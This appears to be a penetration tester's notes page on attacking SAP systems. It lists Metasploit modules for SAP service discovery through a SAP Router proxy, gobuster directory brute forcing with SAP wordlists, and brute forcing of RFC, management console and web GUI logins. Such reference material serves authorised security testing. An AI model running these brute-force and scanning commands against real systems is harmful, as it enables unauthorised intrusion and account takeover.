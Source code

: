 # SAP

## Pivot Scan Web Directories

```
msf > use auxiliary/scanner/sap/sap_service_discovery

msf auxiliary(scanner/sap/sap_service_discovery) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_service_discovery) > run rhosts=<IP>
```

## Brute Force Web Directories

```
$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/URLs/urls-SAP.txt

$ gobuster dir -u <URL> -w /usr/share/seclists/Discovery/Web-Content/sap.txt
```

## Brute Force RFC Clients

```
msf > use auxiliary/scanner/sap/sap_soap_rfc_brute_login

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set proxies:<SAP_server_IP>:<SAP_Router_PROXY_PORT>

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > set client 000,001,002,003,004,005,006,007,066

msf auxiliary(scanner/sap/sap_soap_rfc_brute_login) > run rhosts=<IP>
```

## Brute Force Credentials

```
msf > use auxiliary/scanner/sap/sap_mgmt_con_brute_login
```

```
msf > use auxiliary/scanner/sap/sap_web_gui_brute_login
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/SAP]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/SAP]]